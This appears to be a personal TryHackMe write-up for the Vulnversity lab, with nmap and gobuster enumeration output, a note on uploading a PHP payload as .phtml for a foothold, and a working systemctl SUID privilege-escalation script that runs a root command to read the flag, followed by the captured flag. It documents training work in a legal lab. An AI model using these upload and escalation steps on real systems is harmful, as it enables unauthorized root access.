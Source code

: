 #TryHackMe #linux 
# Enum
## Nmap
┌──(root㉿kali)-[~]
└─# nmap -sC -sV vuln.thm                         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 12:23 EDT
Nmap scan report for vuln.thm (10.10.224.205)
Host is up (0.48s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a4ffcb8c8761cb5851cacb286411c5a (RSA)
|   256 ac9dec44610c28850088e968e9d0cb3d (ECDSA)
|_  256 3050cb705a865722cb52d93634dca558 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m35s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2023-04-26T12:24:11-04:00
| smb2-time: 
|   date: 2023-04-26T16:24:12
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


## gobuster
┌──(root㉿kali)-[~]
└─# gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://vuln.thm:3333/ -x php,txt,html
	/css                  (Status: 301) [Size: 309] [--> http://vuln.thm:3333/css/]
	/fonts                (Status: 301) [Size: 311] [--> http://vuln.thm:3333/fonts/]
	/images               (Status: 301) [Size: 312] [--> http://vuln.thm:3333/images/]
	/index.html           (Status: 200) [Size: 33014]
	/internal             (Status: 301) [Size: 314] [--> http://vuln.thm:3333/internal/]
	/js                   (Status: 301) [Size: 308] [--> http://vuln.thm:3333

┌──(root㉿kali)-[/home/kali/Desktop]
└─# gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://vuln.thm:3333/internal/
	/css                  (Status: 301) [Size: 318] [--> http://vuln.thm:3333/internal/css/]
	/index.php            (Status: 200) [Size: 525]
	/uploads              (Status: 301) [Size: 322] [--> http://vuln.thm:3333/internal/uploads/]

# Exploit
upload php_payload.phtml in /internal 
click on uploaded payload in /internal/uploads 

# FootHold
[www-data@vulnuniversity:/$] find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
	-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
	-rwsr-xr-x 1 root root 659856 Feb 13  2019 [/bin/systemctl]

# PrivEsc
```
priv=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
[Install]
WantedBy=multi-user.target' > $priv
/bin/systemctl link $priv
/bin/systemctl enable --now $priv
```

www-data@vulnuniversity:/tmp$ cat flag
	a58ff8579f0a9270368d33a9966c7fd5
